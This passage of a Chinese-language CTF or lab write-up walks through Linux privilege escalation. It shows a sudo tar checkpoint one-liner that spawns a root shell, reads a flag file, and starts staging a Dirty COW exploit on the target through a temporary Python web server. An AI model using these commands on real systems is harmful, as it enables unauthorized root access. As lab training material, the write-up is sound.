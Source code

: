 ![image-20220316094940334](https://gitee.com/xxb667/img/raw/master/img/image-20220316094940334.png)

发现用户具备sudo权限

```
sudo -l
```

![image-20220316095104548](https://gitee.com/xxb667/img/raw/master/img/image-20220316095104548.png)

使用tar提权，获得root权限，获得flag文件

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![image-20220316095317819](https://gitee.com/xxb667/img/raw/master/img/image-20220316095317819.png)

查找flag.txt文件

```
find / -name flag.txt
```

```
/root/flag.txt
```

![image-20220316095830631](https://gitee.com/xxb667/img/raw/master/img/image-20220316095830631.png)

打开flag.txt文件

```
cat /root/flag.txt
```

![image-20220316100027997](https://gitee.com/xxb667/img/raw/master/img/image-20220316100027997.png)



## 4.2-2 把payload上传到目标机器

下载dirty.c文件

```
https://gitee.com/FireFart/dirtycow/archive/refs/heads/master.zip
```

然后把文件复制到kali里面

#### 开启临时服务器

- 将40838.c文件复制到当前目录下
- 并且利用 python2 -m SimpleHTTPServer 1234 
- 开启临时的建议服务器

![image-20220316101312065](https://gitee.com/xxb667/img/raw/master/img/image-20220316101312065.png)

